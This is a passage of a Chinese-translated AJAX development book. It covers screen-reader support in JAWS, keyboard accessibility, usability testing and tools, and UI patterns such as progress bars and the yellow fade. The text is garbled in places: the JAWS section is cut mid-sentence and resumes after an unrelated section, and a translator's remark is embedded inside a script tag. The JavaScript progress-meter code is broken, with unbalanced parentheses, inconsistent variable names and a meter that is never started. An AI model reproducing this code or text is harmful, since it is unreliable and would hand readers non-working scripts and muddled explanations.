有视力问题的人有时会使用*屏幕阅读器*与他们的计算机进行交互。诸如 JAWS 或*Windows Eyes*之类的软件 literally 大声朗读屏幕上的内容，因此用户可以形成一幅正在发生的事情的心理图像，并使用键盘进行交互。问题在于，虽然 AJAX 允许对页面内容进行任意更改，但屏幕阅读器以线性方式运行，不会朗读发生在页面上方位置的文档更改。这是屏幕阅读器的主要问题。另一个问题是，使用视觉反馈技术，我们可以提醒有视力的用户正在与服务器通信，例如当表单保存到数据库时。使用传统表单时，页面会刷新，屏幕阅读器会向用户清楚地说明正在发生的事情。使用 AJAX 时，事情发生得很快——快得屏幕阅读器来不及通知用户发生了什么。

## 屏幕阅读器不应做的事

摒弃任何针对屏幕阅读器问题的常见虚假解决方案是相关的，这有助于避免走入死胡同。

### 仅仅提供优雅降级

确保你的应用程序在没有 JavaScript 的情况下工作并不足以使其与屏幕阅读器兼容配套。许多屏幕阅读器用户使用 Internet Explorer 或 Firefox，他们对如何关闭 JavaScript 的了解并不比普通计算机用户多。他们不习惯于必须这样做，而提出这种建议只会阻止用户使用你的应用程序。

与此相反，有效的方法是引导这些人使用完全不使用 JavaScript 的应用程序单独版本。这是因为这样做不需要用户以任何特定方式设置他们的浏览器。

### 请使用某某品牌屏幕阅读器再来

人们使用 JAWS。有些人也使用 Windows Eyes 或其他屏幕阅读器，但大多数人不这样做。人们普遍认为市场的大部分份额已被 Freedom Scientific 占据。要求他们使用另一个阅读器来访问你的应用程序，就像要求他们关闭 Firefox 改用 Internet Explorer 一样——根本行不通。如果你能控制用户的软件平台，想写哪个就写哪个，但否则就要计划让人们使用 JAWS。

### 符合 JAWS 标准的 AJAX 交互

当发出 AJAX 请求时，页面的某些区域会被更改，产生的文本需要由屏幕阅读器扫描以朗读或传输到另一台设备。Home Page Reader、Hal、Windows Eyes 和 JAWS 在这方面的反应各不相同。为了解释的目的，我们聚焦于 JAWS 屏幕阅读器。有关 Windows Eyes 的更多信息，请访问`juicystudio.com`。

### JAWS 的工作原理

与其他屏幕阅读器一样，JAWS 会对网页进行某种快照，并将内容放入虚拟缓冲区。用户可以通过屏幕阅读器查看虚拟缓冲区中的信息（而非网页本身）来浏览网页内容。没有虚拟缓冲区，用户就无法与不可聚焦的 DOM 元素进行交互，例如图像、列表、表格、元标签等。在 JAWS 中，虚拟缓冲区的概念被称为*Virtual PC Cursor Mode*（虚拟 PC 光标模式）。

在 JAWS 中，Virtual PC Cursor Mode（或虚拟缓冲区）默认启用。用户可以使用`Insert+z`快捷键来开启或关闭它。当它开启时，用户可以相当详细地浏览 DOM，包括 HTML 元素如表格标题。在早期版本中，Virtual PC Cursor Mode 仅在 Internet Explorer 中工作。在 JAWS 7.0 中，它也在 Firefox 中工作。

与 Virtual PC Cursor Mode 相反的模式简称为 PC Cursor Mode。它之所以相反，是因为它不使用虚拟缓冲区。使用 PC Cursor Mode 时，用户只能与浏览器中可聚焦的元素进行交互。虽然用户在 PC Cursor Mode 中的能力范围有限，但他们可以使用超链接和按钮。如果某个元素可以响应页面上的操作而获得焦点，那么它在 PC Cursor Mode 中对阅读器是可访问的，并且可以大声朗读。虚拟缓冲区则不然，它感知不到页面内容的更改。

### 在 JAWS 中阅读动态内容

当使用 JavaScript 即时更改内容时，屏幕阅读器必须朗读新内容。如果没有干预，JAWS 不会这样做。必须有一种机制来通知屏幕阅读器应该朗读哪些内容。在虚拟缓冲区模式下，JAWS 确实会尝试响应某些客户端事件并刷新缓冲区，但并非以我们需要的方式。

使用虚拟缓冲区时，JAWS 对脚本事件的响应并不一致。它响应`click`和`keypress`等事件，甚至刷新缓冲区以显示页面内容的任何更改。AJAX 的难点在于，调用是异步进行的，DOM 更改不是直接响应这些事件，而是响应`onreadystatechange`事件。Lemon 和 Faulkner 在他们的研究中有一个有趣的观察：Firefox 上的 JAWS 7.0 确实会响应`onreadystatechange`，但 Internet Explorer 不会。

在 JAWS 中阅读动态内容的关键是让用户切换到 PC Cursor Mode（无虚拟缓冲区），然后将焦点发送到页面上更新的部分。屏幕阅读器随后会朗读内容。这里的困难在于，PC Cursor Mode 在其他方面相当受限。用户通常在大多数情况下使用虚拟缓冲区，可能不知道还有其他模式（就像有视力的用户可能不知道有全屏模式或浏览器中的查看源代码选项一样）。这还因为 HTML 规范仅允许某些元素接收焦点而更加复杂。然而，如果我们能告知用户他们

## 键盘可访问性

一般而言，应尽量让用户能够使用键盘访问应用程序的每一个主要功能。这包括为树形控件和标签页等复合控件提供获取焦点和失去焦点的操作，也包括无需鼠标点击即可激活工具栏和菜单中的功能。你可能会发现，许多视力正常的用户也能习惯于使用键盘，因为这样可以节省时间。

在 Windows 中，*Microsoft 的 Windows 用户体验指南*<sup>12</sup>是一份极佳的参考资料——尤其是关于表单控件的部分。这些指南描述了控件应如何响应键盘和鼠标操作。使用 JavaScript，覆盖复合控件的默认键盘行为以符合这些指南相对简单。

一个常见的问题是，如果界面中包含不像标准表单控件（如组合框或树形控件）的组件，该怎么办。在这些情况下，一个可接受的解决方案是采用功能相似控件的键盘接口。一个很好的例子是 Adobe 的 Ely Greenfield 提出的“**随机漫步**”组件<sup>13</sup>（见图 8.5）。由于随机漫步不是标准表单控件，它没有预期的键盘行为。然而，从功能上讲，它类似于 Windows 中的树形控件。这两种控件都是支持节点展开和折叠的分层数据的钻取表示。



**图 8.5** 尽管外观不同，随机漫步组件在键盘交互方面应与树形组件行为一致

*Microsoft 用户体验指南*关于树形控件中的键盘导航有如下说明：

1. 箭头键提供键盘支持以在控件中导航。
2. 用户按上箭头键和下箭头键在各项之间移动，按左箭头键和右箭头键沿大纲的特定分支移动。
3. 按右箭头键还可以展开当前未显示的分支。
4. 如果焦点位于已展开分支的项上，按左箭头键可折叠该分支；否则将焦点移动到当前项的父项。
5. 按数字键盘上的`*`可展开当前分支及其所有子分支。
6. 文本键也可用于在列表中导航和选择项，使用基于时间匹配的导航技术。

由于随机漫步功能上与树形控件相似，这些惯例被采用，所有用户都能从标准键盘接口中受益。

### 记住 JAWS 快捷键

JAWS 屏幕阅读器保留了某些按键用于控制浏览器中的屏幕阅读器活动。因为我们希望提高而非降低可访问性，请确保以下常用的 JAWS 快捷键得到保留，不要在应用程序中用于其他目的：

1. `Ctrl`—停止屏幕阅读器继续朗读页面。
2. `Ctrl+Home`—返回页面顶部并从此处开始朗读。
3. 向下箭头—朗读下一行。（虽然这可以在控件中使用，但它应该移动到下一行。）
4. `Enter`—激活链接或按钮。

### 运用常识

设计键盘接口时，请考虑便利性。如果需要按 20 次 Tab 键才能到达最常用的超链接或按钮——这可能会影响仅使用键盘的用户的可用性。你可以通过 JavaScript 或某些页面元素的`tabindex`属性来强制指定 Tab 顺序。

需要暂时切换到 PC 光标模式（无虚拟缓冲区），我们可以在`onreadystatechange`中将焦点发送到已更改的 HTML 元素，JAWS 应该会大声朗读它。

下面是一个超链接示例，它可以使用 AJAX 更新段落内容，然后将焦点发送到该段落，向 JAWS 发出信号以朗读新内容（但仅在 JAWS 置于 PC 光标模式时）。此代码基于在 JuicyStudio 找到的示例。<sup>11</sup>

``` 


```html
<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
    <title>JAWS AJAX Test</title>
    <script type="text/javascript">
function doAjax(url) {
  var xhr = new entAjax.HttpRequest();

  xhr.handler = url;
  xhr.completeCallback = showData;
  xhr.get();
}

function showData(oResponse) {
  var strResult = oResponse.httpObj.responseText;
  var objCurrent = $('myData');

  // Here we insert a paragraph tag because it can receive focus.
  var objReplacement = document.createElement('p');

  objReplacement.setAttribute('id', 'update');
  objReplacement.tabIndex = -1;
  objReplacement.innerHTML = strResult;

  if (objCurrent)
    objCurrent.parentNode.replaceChild(objReplacement, objCurrent);
  else {
    var objContent = $('content');
    objContent.appendChild(objReplacement);
  }

  // Now set focus on the tag, causing JAWS to read focused content
  objReplacement.focus();
}

</是一段代码，无需翻译</script>
  </head>

  <body>
    <h1>JAWS AJAX Test</h1>
    <h2>This is a test of Ajax with a Screen Reader</h2>

    <div id="myData">
      Don't forget to turn your JAWS browser into PC Cursor mode by pressing Insert+z.
    </div>

    <a href="#" onclick="return doAjax('mydata.txt')">
      Retrieve data from server
    </a>.
  </body>
</html>
```

对最终用户而言，缺点当然是可用性。必须在虚拟缓冲区模式和非缓冲区模式之间切换以查看更新，这要求用户被告知如何操作以及何时操作。

## 可用性测试

由于本章讨论可用性，我们花些时间讨论实用的可用性测试。因为 AJAX 实现了更强大的 UI 能力，企业正在投资实施 AJAX 以提高可用性并由此节省资金，因此需要可用性测试来验证这些变化并寻找改进机会。这很重要，因为许多新软件项目因被用户拒绝而失败。在企业中，让实际用户参与测试可以帮助你避免容易纠正的可用性问题，并让最终用户在开发过程中参与中期修正。

一般来说，可用性测试试图衡量四个方面：

1. 任务完成时间
2. 准确性——衡量错误数量和严重程度
3. 记忆性
4. 情感反应——用户对任务或应用的感受

目标是让人们面对应用程序或应用程序的表示形式，并测试上述指标。总体而言，测试方法往往是伪科学的，带有对照和严格的脚本或指令。最终，任何可用性测试都比没有好，如果我们无法承担进行深入的科学测试，一些临时技术也能产生有用的结果。

### 快速简便的测试

一些可用性专家建议避免大型而精心设计的测试周期，转而建议组建不超过五名用户的小组。其理由是，让许多用户犯同样的错误是浪费时间。外包测试使用大型小组可能给项目时间表增加大量成本和延迟。小组测试可以揭示用户如何接触界面以及需要在何处改进的有用见解。

### 招募参与者

招募参与者不一定会成为测试的障碍。有许多可能的用户来源可以考虑：

1. **内部用户**——如果软件将在组织内部使用，请尝试从该群体中招募一些用户。如果他们的支持可能在将来成为 `pdw` 题，让实际用户参与可能会很有用。
2. **现有客户**——如果受众是组织外部的，尝试拜访与你关系良好的客户，或发送应用程序链接给他们，随后跟进调查或语音对话——尽管这远不如亲临现场。
3. **新员工**——新员工的优势在于不受先前信息系统或产品的成见影响。他们的新鲜视角可能比资深员工揭示出更根本的界面问题。
4. **朋友和家人**——尽管远非理想，朋友和家人可以提供关于基本功能和形式的反馈。

### 设计和运行测试

虽然有些测试总比没有好可能是对的，但如果我们费了很大劲召集了一些参与者，我们可以利用一些基本工具。

1. **设计场景**——许多软件设计过程（包括敏捷和 CMMI）要求我们在编写软件之前开发用例或场景。这些是我们期望用户如何使用应用程序的假设示例，以一个起始条件和明确的目标为框架。让你的参与者独立运行其中的一些任务。场景可能是诸如从在线商店购买产品或从数据库中查找特定客户记录。执行此任务所需的步骤不应是场景的一部分，而应让用户自己找出。

   <sup>11</sup> http://juicystudio.com/article/making-AJAX-work-with-screen-readers.php

   <sup>12</sup> http://msdn.microsoft.com/library/default.asp?url=/library/en-us/dnwue/html/ch08c.asp

   <sup>13</sup> 有关随机漫步组件的更多信息，请参阅第 17 章。

2. **参与者叙述**——让参与者边做边说他们正在做什么。这有助于避免对选择某个特定操作的原因做出错误假设。随口说出的话可能会透露重要信息。

3. **放下自我**——尽量不要向参与者辩解或解释应用程序为何以这种方式工作。参与者在那里是为了质疑和验证设计决策。

4. **记录会话**——如果可能，尝试录制会话视频，并展示给不在场的其他利益相关者。视频记录比书面记录更有说服力，有时其他应用程序架构师需要被说服确实存在缺陷。如果可能，让记录笔记的人与引导会话的人不同。

5. **小步测试，频繁测试**——测试应该在开发过程中持续进行，而不是仅在临近结束时进行。保持这些测试小而聚焦。注意力持续时间会影响反馈质量，如果早期会话过于冗长乏味，参与者将不太愿意在产品更成熟时再次测试。

## 软件辅助测试

有大量可用的软件工具可用于测试可用性。有些成本较高并附带服务；有些则更通用，仅提供屏幕共享以及语音和视频通信等功能。软件辅助测试最常见的用途是远程测试。当参与者分散在不同地点和时区时，这类软件可以轻松获取有意义的交互反馈。

## 可用性测试工具

1. **Morae**（http://www.techsmith.com/morae.asp）——一款低成本的软件包，提供基于 IP 的视频、屏幕和语音捕获功能。
2. **WebEx**（http://www.webex.com）——大多数人熟悉的网络会议解决方案。屏幕共享和视频功能，加上现在可用于 Firefox 和 Internet Explorer，使其成为远程可用性测试期间沟通的实用工具。它还具有将屏幕控制权交给用户以及共享用户屏幕的优势。WebEx 很知名，但比许多其他工具更昂贵。当前定价显示，一场有六名参与者的一小时访谈约为 300 美元。
3. **NetMeeting**（http://www.microsoft.com/windows/netmeeting/）——一款 VoIP 和视频会议工具，包含在许多版本的 Windows 中（包括 XP，尽管有些隐蔽）。它还支持桌面共享。随着 Windows Vista 即将发布，NetMeeting 将被具有类似功能的 Microsoft 协作工具取代。
4. **Raindance**（http://www.raindance.com）——一款具有视频和桌面共享功能的网络会议解决方案。

## 软件辅助测试的一般技巧

一些软件辅助和远程可用性测试的经验法则可以帮助避免以下常见问题：

1. **保持在同一洲**——一般来说，经验表明，尽管互联网速度惊人，但结合语音和视频通信以及地理距离，由于增加的延迟时间，可能导致测试效果不佳。
2. **提前发送所有相关文档**——如果参与者需要手册、屏幕截图、登录信息、PowerPoint 幻灯片或特殊软件，请确保提前充分发送。
3. **提前一天确认**——人们很忙，如果他们自愿抽出时间帮助测试可用性，这可能不是他们的首要任务。提前一天提醒他们，以避免混淆。
4. **提前发送场景**——这不仅节省时间，如果参与者有机会提前查看他们将要执行的场景，而且企业电子邮件服务器可能会延迟，Microsoft Messenger 文件传输可能会被防火墙阻止。确保用户提前充分收到场景，以避免因技术问题造成令人沮丧的延迟。

## 总结

在本节中，我们探讨了与 AJAX 开发相关的可用性中的几个关键问题，包括后退按钮、书签和页面权重，以及 AJAX 如何改变提交更改模式。我们还研究了可访问性和可用性测试，并提出了一种使用易于获得的现成软件工具的实用方法。

从可用性角度进行应用程序设计，充其量是一门伪科学。尽管仔细规划和遵循最佳实践可以产生可用的软件，但实际上，很少有开发人员真正知道如何运行可用性测试或向用户提出什么问题。通过避免一些主要陷阱并至少采用一些最低限度的现场测试，我们可以大大增加成功的机会。

同样容易看出，可访问性如何影响将应用程序推向不同地区和用户群体的能力。显然，可访问性不仅仅是屏幕阅读器。虽然屏幕阅读器至关重要，但当我们实现键盘导航这样简单的功能时，就能获得一些快速成效。这样简单的事情可以极大地影响应用程序的长期扩展性和用户接受度。

接下来，我们将继续讨论可用性，并探索 AJAX 开发中使用的一些基本用户界面模式，以节省用户时间、提供更好的信息并帮助避免错误。

## 资源

### 后退按钮

- 修复后退按钮（content with style），http://www.contentwithstyle.co.uk/Articles/38/fixing-the-back-button-and-enabling-bookmarking-for-ajax-apps
- Safari 的片段标识符技术（David Bloom），http://bloomd.home.mchsi.com/histapi/test.html
- AJAX 模式，http://www.ajaxpatterns.org

### 可用性测试

- Morae，http://www.techsmith.com/morae.asp
- WebEx，http://www.webex.com
- NetMeeting，http://www.microsoft.com/windows/netmeeting
- Raindance，http://www.raindance.com
- 面向设计师的信息架构，http://iabook.com/template.htm：Visio 模板、同意书等。

# 第 9 章 用户界面模式

AJAX 正在迅速催生 Web 应用程序的新范式。AJAX 运动的庞大规模开始使其他技术如 Flash 和 Java 小程序相形见绌。模式构成了任何有效用户界面的基础。好的模式消除了学习如何与应用程序交互的负担，而成功的 AJAX 应用程序的特点在于其修改用户界面约定的方式的微妙之处。本章研究了一些支持 AJAX 应用程序用户的微妙而稳健的界面模式。有一些优秀的书籍比我们这本书更详细地讨论用户界面，但本章能让你对使用 AJAX 设计应用程序的最佳实践有一个良好的基本理解。

## 显示模式

随着浏览器承担更多桌面应用程序的丰富交互性，开发人员借鉴桌面上使用的一些 UI 模式，以帮助在基于 Web 的应用程序空间中传达变化。此外，新的约定正在从 Web 开发社区中自然涌现。Web 的问题在于用户期望实际上可能对我们不利。用户不习惯 AJAX 可以提供的那种丰富交互，我们需要让内容变化明确明显，否则我们的用户可能不会注意到某些事情已经发生。在传统 Web 应用程序中，启动超链接或表单提交会导致 dreaded post-back。post-back 具有提醒用户页面内容变化的效果。AJAX 允许我们实现对 DOM 的快速增量更新。由于页面不需要重新加载，这些变化看起来是即时的。

想象一个从未听说过 AJAX 并且不了解异步通信技术奇迹的网站用户。想象一下他对文档的微妙而即时变化的反应。因为……

## 第九章 用户界面模式

如果没有任何回传（post-back），用户很可能会怀疑到底有没有发生什么。突然间，我们的应用在用户眼中变得不可靠了。现在假设我们用一个视觉提示来引起用户对 DOM 变化的注意。这样用户的注意力就会被引向新内容，并意识到发生了某些变化。这就是我们在整个 AJAX 实现中需要进行的“变化传达”。

为了向用户传达变化，Web 开发人员使用了多种吸引注意力的技术，如动画和颜色变化。其中包括一些主动提示用户对象在激活时可以做什么的技术。视觉沟通涵盖了主动提示和被动提示的组合。主动提示预示将会发生什么，而被动提示则告诉我们正在发生什么或已经发生了什么。我们有时可能没有意识到，但富应用中到处都充满了这两种提示——形成了一种隐式和显式沟通的复杂流程，利用了我们对符号的经验和理解。

### 动画模式

人类擅长捕捉运动，尤其是通过周边视觉。这并不是说运动一定会让用户怀疑我们的应用对他们有恶意，但它确实表明动画是吸引人们注意力和传达重要信息的好方法。在 Baecker、Small 和 Mander 的一项研究中，通过对一组图标进行动画处理，其理解率从 62% 提高到了 100%。动画还可以用来解释应用中发生的事情。除非我们借助可以简化网页动画创建的库，否则动画可能需要大量的 JavaScript 和 DHTML 工作。一些流行的启用 AJAX 的库，如 `script.aculo.us`（http://script.aculo.us）和 `moo.fx`（http://moofx.mad4milk.net），会替我们完成部分工作。这些以及其他工具提供了实现动画和其他 UI 模式的简便方法。以下是富客户端 Web 应用中一些流行的动画模式。

<sup>1</sup> Baecker, R. 和 I. Small。B. Laurel 编辑。“界面中的动画。”《人机界面设计的艺术》。Reading, MA：Addison-Wesley，1990。

### 拖放

拖放技术在允许用户重新组织页面上的项目时非常强大。其可能的应用场景包括：

- **重新排列列表**——在传统应用中，每次重新排列都可能需要等待页面刷新，这通常通过上下按钮来实现。使用拖放来重新排列列表可以节省用户的时间和精力。
- **在二维空间中移动项目**——最明显的例子是类桌面环境，允许用户移动和调整实际窗口或其他对象的大小。
- **管理集合**——例如，维护一个对象的回收站或一个购物车，用户可以将项目拖入和拖出。
- **选择连续体上的某个迭代**——即滑块。这是一个在 X 轴或 Y 轴上的拖放控件，可以帮助用户在两个数字、日期或其他数据集之间进行选择。
- **执行其他某个命令**——一个例子可能是将客户名称拖到视图窗口中，或将网格列标题拖到排序区域以重新排列列表。

拖放与 AJAX 相关，因为命令实际上可以通过 XHR 执行而无需回传。这使得交互更加流畅和有意义。需要注意的是，一般来说，拖动操作是对即将完成的操作的预览。在用户将对象释放到有效的接收容器之前，不应执行操作。此外，被拖动的对象不应遮挡其后面的景象。合理的 UI 设计表明，我们应该使用透明度来表示其预览状态，并允许用户看到其下方的对象。

### 进度条

AJAX 应用的异步特性使进度条的概念再次变得重要（见图 9.1）。动画进度指示器的目的是告诉用户是否正在执行操作，并让用户大致了解还需要等待多久。

#### 图 9.1 使用 AJAX 轮询服务器端进程的进度计

进度条对于显示一系列任务的操作进度也很有用。在这两种情况下，对于 AJAX 应用来说，进度条应使用 JavaScript 进行动画处理，而不是作为图像从服务器重新加载。

根据 IBM 的一项研究，如果一个操作平均需要 4 秒或更长时间才能完成，用户会将注意力从应用的操作转移到延迟上。在等待远程任务完成的情况下，应实现进度条，因为它可以轻松地线程化而不会影响我们应用的性能。反之，任务也不会干扰进度条的运行。如果我们等待一个处理器密集型的浏览器任务完成，如 XML 转换，进度条可能会对应用的性能产生负面影响。

根据这项研究，更新进度条的间隔应小于 4 秒是合理的。

编写进度计很简单。在下面的示例中，我们构建了一个简单的无状态进度条，它定期轮询服务器上的脚本并更新屏幕上的进度条。在实际应用中，我们可能会使用数据库来维护有关进程的信息，但为了保持示例的简洁性，我们将简单地让服务器计算一个时间间隔，这不需要数据库或任何状态信息。首先，我们定义一个 `ProgressMeter` 类，如下所示：

```javascript
entAjax.ProgressMeter = function(dElement, sHandler, iWidth, iTime) {
  this.element = dElement;
  this.handler = sHandler;
  this.finalWidth = iWidth;
  this.totalTime = iTime;

  this.xhr = new entAjax.HttpRequest();
  this.xhr.responseType = "text";
  this.xhr.completeCallback = entAjax.close(this, this.updateProgress);
  this.timerId = 0;
}

entAjax.ProgressMeter.prototype.start = function() {
  this.startTime = new Date().getTime();
  this.requestUpdate();
}
```


```javascript
entAjax.ProgressMeter.prototype.requestUpdate = function() {
  var currentTime = new Date().getTime();

  // Get the countdown time from the form
  this.xhr.handler = this.handler + "?elapsedTime=" + currentTime - this.startTime) * 1000 + "&countdownTime=" + this.totalTime;

  this.xhr.get();

  // do this again in 100 milliseconds
  this.timeId = setTimeout(entAjax.close(this, requestUpdate), 100);
}

entAjax.ProgressMeter.prototype.updateProgress = function() {
  // get the % complete from the server response.
  var progressPercent = parseFloat(this.xhr.httpObj.responseText);

  // if we're done, then clear the timer object
  if (progressPercent >= 1.0) {
    progresspercent = 1;
    window.clearTimeout(this.timerId);
  }

  // update the progress meter
  this.element.style.width = (progressPercent * this.finalWidth) + 'px';

  // write out the % complete
  this.element.innerHTML = Math.round(progressPercent * 100) + '%';
}
```

要在网页中实际使用它，我们首先创建一个表单。用户可以输入要在服务器上倒计时的秒数。当用户按下 Go! 时，计时器启动，每 100 毫秒轮询服务器一次以计算完成百分比。服务器返回一个百分比值，该值用于更新屏幕上的进度条。用户可以看到一个每秒更新约十次的动画进度条。如果我们每秒只轮询一次或更少，我们还需要使用一个脉动指示器（throbber）（见下一节）来告诉用户活动仍在进行中。

```html
<html>
  <head>
    <title>Progress Meter Demo</title>

    <script type="text/javascript" src="entajax.toolki.js"></script>

    <script type="text/javascript">
      function beginCountdown(iTotalTime) {
        var pm = new entAjax.ProgressMeter(
          $("progressMeter"), "calcprogress.php", 500, iTotalTime
        );
      }
    </script>

    <style type="text/css">
      .container {
        width: 500px;
        height: 40px;
        border: 1px solid #000000;
        text-align: left;
      }

      .progress {
        width: 0px;
        height: 40px;
        background-color: #0066FF;
        color: #ffffff;
        font-size: 15px;
        text-align: center;
        vertical-align: middle;
        padding-top: 15px;
        margin: 0px;
      }
    </style>
  </head>

  <body>
    <form
      id="countdownform"
      name="countdownform"
      method="post"
      action=""
      onsubmit="beginCountdown($('seconds').value); return false;"
    >
      <h3>无状态Ajax进度条示例：</h3>

      <p>
        倒计时秒数：
        <input name="seconds" type="text" value="10" />
        <input type="submit" name="Submit" value="开始！" />
      </p>
    </form>

    <div id="progressContainer" class="container">
      <div id="progressMeter" class="progress"></div>
    </div>
  </body>
</html>
```

`progressContainer` 这个`<div>`元素为进度条提供了黑色外框，我们通过改变其内部`progressMeter` `<div>`的宽度来实现计时器的动画效果。

在服务器端，我们有一个脚本执行简单的无状态计算并返回用于更新进度条的响应。本例中使用的是一个简单的 PHP 脚本（`calcprogress.php`）。

```php
<?php

$countdownTime = $_GET['countdownTime'];

$elapsedTime = $_GET['elapsedTime'];

echo ($elapsedTime / $countdownTime);

?>
```

该技术的实际应用通常至少会包含一个会话变量或数据库来跟踪任务进度，例如长时间运行的批处理过程或文件上传。

### 脉冲指示器/活动指示器

*脉冲指示器*是一种作为活动指示器的动画；一个常见例子是大多数网络浏览器右上角存在的活动图标（参见图9.2）。脉冲指示器的目的是告知用户某个活动正在进行，并减少应用程序状态的不确定性。它与进度条的不同之处在于，它不提供关于活动进展的任何具体信息——只表明活动仍在发生。Windows文件复制视图同时使用脉冲指示器和进度条来显示活动进度和状态。在进度条移动缓慢的情况下，脉冲指示器可以告知用户某些事情仍在发生。

**图9.2** Firefox和Internet Explorer的脉冲指示器



从技术角度来看，脉冲指示器比进度指示器更容易实现。仅通过使用 GIF 动画就可以实现脉冲指示器，如果任务进度不易测量，或者任务持续时间相对较短（<10秒），那么实现脉冲指示器比实现一个完整的进度指示器更合理。

### 颜色变化与淡入淡出

AJAX应用程序中常用的一种动画形式称为*淡入淡出*，这是一种将对象的图标从一种状态逐渐变换为另一种状态的动画类型。一种常见的形式被称为“黄色淡出”，这涉及将对象的背景色从黄色逐渐变为透明。

- 使用 JavaScript 可以轻松地淡化元素的背景颜色。只需很少的代码就能轻松实现，并且在所有主流浏览器中都能正常工作。
- 淡化对象的颜色也是吸引用户注意力的好方法。颜色淡化等同于亮度变化，类似于舞台上聚光灯的效果——这是一种易于理解的视觉隐喻。
- 低干扰性。淡入淡出动画在不严重分散用户注意力的情况下使对象产生动画效果。

本章后面，我们将从技术角度探讨淡入淡出。我们还将研究颜色变化的一些可能应用，作为一种通过动画对象来传达意义的方式。它可以实现以下功能：

- **指示新内容**——当使用 `XHR` 获取新内容块并显示在页面上时，我们可以使用背景色淡化来突出页面上的新内容。我们也可以使用从透明到不透明的淡入效果来动画化内容实际上在页面上显现的过程。
- **指示内容移除**——通过从不透明到透明的淡出，我们在视觉上警告用户内容即将被移除。
- **指示状态变化**——当对象的属性发生改变时，该对象相对亮度或颜色的变化可以传达其新状态。例如，将即将被删除的对象*淡化*为深灰色，可以给出视觉指示并吸引对状态变化的注意。

淡入淡出动画的持续时间应刚好足够让用户注意到。一个经验法则是让过渡持续约1秒。这是一个线程操作，不会干扰用户界面的功能，但不应持续太久以至于成为干扰。

使用 JavaScript，可以很容易地以这种方式淡化 HTML 元素的颜色。该技术只需获取新内容出现的`<DIV>`或`<SPAN>`，并在内容更改的瞬间将背景从黄色淡化为白色。这实际上结合了两种效果：颜色变化和动画，两者都易于实现，并且对于引起对 DOM 变化的关注非常有效。

要实现我们自己的“黄色淡出”，我们不需要使用 AJAX，但确实需要使用 JavaScript。开始之前，我们必须理解淡化是通过迭代红/绿/蓝颜色值来工作的。屏幕上的所有颜色都由这些颜色不同强度的组合构成。在 HTML 中，我们用十六进制或*hex*来描述特定颜色。以下是一些十六进制值示例：

- 黑色：红=0，绿=0，蓝=0，十六进制：`#000000`
- 白色：红=255，绿=255，蓝=255，十六进制：`#FFFFFF`
- 黄色：红=255，绿=255，蓝=0，十六进制：`#FFFF00`

在 JavaScript 中将红/绿/蓝值转换为十六进制，我们可以使用这样一个简单的函数：

```javascript
function returnHexColor(Red, Green, Blue) {
  Red = Red.toString(16);

  if (Red.length == 1)
    Red = '0' + Red;

  Green = Green.toString(16);

  if (Green.length == 1)
    Green = '0' + Green;

  Blue = Blue.toString(16);

  if (Blue.length == 1)
    Blue = '0' + Blue;

  return "#" + Red + Green + Blue;
}
```

我们可以通过创建一个使用 JavaScript 计时器的函数，轻松地让页面上的元素从一种颜色淡化到任何其他颜色。以下代码将任何具有给定 ID 的对象从黄色淡化为白色。

```javascript
function fadeMyElement(sElementId, iIterator) {
  if (iIterator < 255) {
    // 从RGB值和“迭代器”获取黄色到白色之间的颜色
    var myColor = returnHexColor(255, 255, iIterator);

    // 获取我们的元素ID
    $(sElementId).style.backgroundColor = myColor;

    // 十分之一秒后以更高的迭代器重复此操作
    setTimeout(
      "fadeMyElement('" + sElementId + "', " + (iIterator + 20) + ")",
      100
    );
  } else {
    // 将背景颜色设为无值 - 我们完成了。
    $(sElementId).style.backgroundColor = '';
  }
}
```

接下来，我们有一个按钮，用于将一个`<DIV>`从黄色淡化为白色：

```html
<input
  type="button"
  value="淡化我的元素"
  onclick="fadeMyElement('myElement', 0);"
/>

<div id="myElement">看着我淡化。</div>
```


黄色淡出效果很好，但像任何事情一样，它可能被过度使用到分散注意力的程度。我们可能希望将其使用限制在最重要的内容更改上。例如，为了坚持只实现增强而非削弱用户体验的功能的理念，我们可能希望只淡化标题而不是整个内容块。

### 鼠标悬停效果

最基本的动画类型之一是简单的、基于事件的鼠标悬停效果。鼠标悬停效果是当光标或鼠标移到对象上时，对象外观发生改变。这是一种主动指示对象可能被控制或操作的有力方式。鼠标悬停效果可以连接到`XHR`对象以检索信息，或者简单地改变鼠标图标的外观。以下是一些鼠标悬停效果类型：

- **鼠标光标变化**——使用`CSS`，通过将鼠标光标更改为手形、靶心、调整大小或其他控制指示器来暗示对象的功能。
- **对象高亮显示**——改变对象的颜色、边框或其他视觉属性，以指示所选状态的预览。
- **预获取**——通过执行`XHR`获取有关该对象的数据并将其显示在弹出窗口或工具提示中，提供点击该对象时“下方”内容的预览。`AJAX`使这成为可能，因为不再需要在页面生成时加载所有这些信息，使其在数据丰富的页面中非常有用。
- **工具提示**——当鼠标放在对象上时，在工具提示中显示有关该对象的文本或富文本信息。

## 交互模式

`AJAX`增强了用户在应用程序中与数据交互的能力。由于能够在业务层、数据层和客户端浏览器之间协调信息，新的交互级别成为可能。`AJAX`催生了一系列新的控件模式，这些模式类似于桌面应用程序中使用`XHR`、`JavaScript`和`DHTML`为Web应用程序创造新的交互机会的惯例。在本节中，我们将探讨几种从`AJAX`中显著受益的控件模式。

### 基本交互模式

我们首先来看第一组模式：基本交互模式。

### 就地编辑

“就地编辑”指的是在内容块中输入，而该内容块同时也是输出（参见图 9.3）。一个例子可能是 Windows 资源管理器。通过双击文件夹树中的文件名，我们可以就地编辑名称。一般来说，就地编辑意味着编辑内容的机制可以像点击内容本身一样轻松触发。借鉴桌面应用程序，电子表格是就地编辑的另一个好例子。人们使用电子表格程序来查看和编辑文档。就地编辑应该像点击内容然后在其中输入一样简单。

在网页中实现这种行为的基本问题涉及页面重载。能够对内容进行多次编辑然后立即在输出中看到它们的变化，在工作流方面极其有用。然而，在传统的基于表单的编辑视图和实际产出视图之间切换，通常可能既缓慢又令人困惑。

**图 9.3** 使用就地编辑简化目录中的图像标记

